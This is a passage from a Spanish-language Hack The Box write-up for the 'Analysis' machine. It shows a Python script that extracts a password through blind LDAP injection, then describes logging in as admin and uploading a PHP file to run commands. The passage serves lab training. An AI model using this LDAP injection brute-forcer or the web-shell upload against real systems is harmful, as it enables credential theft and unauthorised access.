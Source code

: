 Luego de diferentes pruebas se logra ver que estamos ante una `LDAP Injection`, según el carácter probado los datos en la tabla cambian, así que con el siguiente script realizamos el ataque.

```bash
#!/usr/bin/python3

from pwn import *
import requests, string, signal

def def_handler(sig, frame):
    print("\n [!] Saliendo... ")
    sys.exit(1)
# crtl + c
signal.signal(signal.SIGINT, def_handler)

charset = string.ascii_letters + string.digits + string.punctuation
url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description=FUZZ*)"

clair = ""

p1 = log.progress(f"Iniciando fuerza bruta: ")
p2 = log.progress(f"Caracteres validos: ")

while len(clair) < 14:
    found_valid_char = False

    for char in charset:
        payload = url.replace("FUZZ", clair + char)
        response = requests.get(payload)
        p1.status(payload)

        if "technician" in response.text:
            clair += char
            p2.status(clair)
            found_valid_char = True
            break
    if not found_valid_char:
        clair += "*"
```
![](/assets/img/HTB-Analysis/4_Analysis.png)
Obtenemos lo que parece ser una contraseña, así que lo probamos en la siguiente ruta `http://internal.analysis.htb/employees/login.php`, con el usuario que nos salió en la tabla.

## Ganando acceso

Logramos ingresar y somos admin en lo que parece ser un panel de análisis a incidentes de ciberseguridad, en la parte del SOC Report, vemos que podemos subir un archivo, así que como la web está hecha con `php`, subimos un archivo el cual nos permita ejecutar comandos.